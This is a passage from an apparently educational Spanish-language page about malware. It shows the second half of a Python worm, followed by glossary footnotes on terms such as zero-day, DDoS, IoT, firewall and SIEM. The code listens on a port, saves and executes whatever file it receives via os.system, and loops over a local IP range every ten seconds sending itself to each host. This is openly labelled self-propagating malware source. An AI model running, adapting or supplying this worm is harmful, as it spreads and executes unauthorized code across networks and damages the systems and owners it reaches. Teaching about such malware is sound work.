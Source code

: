 ```Python
        s.sendall(contenido.encode())  # Enviar el contenido del gusano

        print(f"Se envió el gusano a {ip_destino}")
        s.close()

    except Exception as e:
        print(f"No se pudo enviar el gusano a {ip_destino}: {e}")

# Función para escuchar en el puerto y recibir el gusano
def recibir_gusano():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", PUERTO))  # Escuchar en todas las interfaces
    s.listen(1)
    print("Esperando una conexión para recibir el gusano...")

    # Aceptar una conexión entrante
    conn, addr = s.accept()
    print(f"Conexión recibida de {addr}")

    # Recibir el gusano y guardarlo
    data = conn.recv(1024 * 1024)  # Tamaño máximo de 1MB (ajustar según el tamaño)
    if data:
        with open(archivo_gusano, "w") as f:
            f.write(data.decode())  # Guardar el gusano recibido
        print(f"Gusano recibido y guardado en {archivo_gusano}")

        # Ejecutar el gusano recibido
        os.system(f"python {archivo_gusano}")

    conn.close()

# Función para propagar el gusano a través de la red local
def propagarse():
    for ip in range(int(RANGO_IPS[1].split(".")[-1]), int(RANGO_IPS[0].split(".")[-1]), -1):
        ip_destino = ".".join(RANGO_IPS[0].split(".")[:-1]) + f".{ip}"
        print(f"Intentando enviar el gusano a {ip_destino}")
        enviar_gusano(ip_destino)

# Función principal para ejecutar el gusano
def ejecutar_gusano():
    print("Gusano ejecutándose...")
    while True:
        # Propagarse cada 10 segundos
        propagarse()
        time.sleep(10)

if __name__ == "__main__":
    # Escuchar si el gusano ha llegado a esta computadora
    recibir_gusano()

    # Ejecutar la propagación
    ejecutar_gusano()

```


[^footnote]: El Zero Day o Ataque de día cero, es un ataque contra una aplicación o un sistema que tiene como objetivo la ejecución de código malicioso mediante vulnerabilidades desconocidas para los usuarios y el fabricante del producto.
[^fn-nth-2]: Es un ataque distribuido que tiene como objetivo desactivar y derribar recursos en linea sobrecargandolo con solicitudes de conexión, paquetes falsos y otro tráfico malicioso.
[^fn-nth-3]: Un dispositivo IoT  es un equipo conectado a internet. Por ejemplo, termostato inteligente, cámaraa de seguridad o asistente virtual.
[^fn-nth-4]: Es la parte central de un sistema operativo que gestiona el hardware y permite que los programas interactúen con él.
[^fn-nth-5]: Software básico que inicia el hardware del computador y carga el sistema operativo. UEFI es la versión más moderna y segura que reemplaza al BIOS tradicional.
[^fn-nth-6]:  Protocolo usado para comunicación en tiempo real mediante texto, común en comunidades y canales de chat.
[^fn-nth-7]: Protocolo estándar para transferir datos en la web, como cargar páginas o enviar formularios.
[^fn-nth-8]:  Modelo de red donde los dispositivos se conectan directamente entre sí para compartir recursos sin intermediarios.
[^fn-nth-9]: Sistema que filtra y controla el tráfico de red para proteger dispositivos o redes de accesos no autorizados.
[^fn-nth-10]: Herramienta que detecta y bloquea automáticamente actividades maliciosas en la red.
[^fn-nth-11]: Plataforma que recopila, analiza y correlaciona datos de seguridad para identificar y responder a amenazas.